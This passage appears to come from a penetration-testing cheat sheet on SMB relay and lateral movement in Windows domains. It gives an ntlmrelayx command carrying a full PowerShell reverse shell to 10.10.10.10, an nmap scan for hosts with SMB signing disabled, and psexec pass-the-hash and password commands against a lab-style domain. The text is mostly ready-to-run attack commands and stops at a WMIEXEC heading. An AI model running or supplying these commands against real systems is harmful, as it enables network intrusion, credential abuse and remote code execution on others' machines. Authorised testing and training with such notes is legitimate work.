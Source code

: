 NTLMRELAYX:

```
impacket-ntlmrelayx -tf targets.txt -smb2support -c "$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

* Be sure to change the IP/port as needed!
* If it does not work, check firewall rules

## Identifying and Discovering Hosts w/ SMB Signing Disabled

* Remember, hosts with SMB signing disabled means that they are susceptible to SMB relay attacks
* NOTE: Servers will by default have SMB signing enabled and required
* NOTE: Clients will by default have SMB signing enabled but not required&#x20;

Nmap Syntax:

```
nmap --script=smb2-security-mode.nse -p445 192.168.10.0/24
```

* Upon running responder and obtaining a network event, you will get a hash

## Gaining Shell Access

* Here is where you need to start asking yourself "okay, we have credentials, how can we gain a shell?"
* Be sure to ALWAYS try and use multiple options before giving up!!!!
* First, attempt to use <mark style="color:yellow;">SMBEXEC</mark> or <mark style="color:yellow;">WMIEXEC</mark> at first&#x20;

### <mark style="color:yellow;">PSEXEC</mark>

Pass-The-Hash:

```
impacket-psexec htb.local/Administrator@10.10.10.10 --hashes 823452073d75b9d1cf70ebdf86c7f98e
```

Execute Command Remotely:

```
impacket-psexec htb.local/Administrator -p Password123 cmd.exe
```

or

```
impacket-psexec htb.local/Administrator:Password123@10.10.10.10
```

### <mark style="color:yellow;">WMIEXEC</mark>

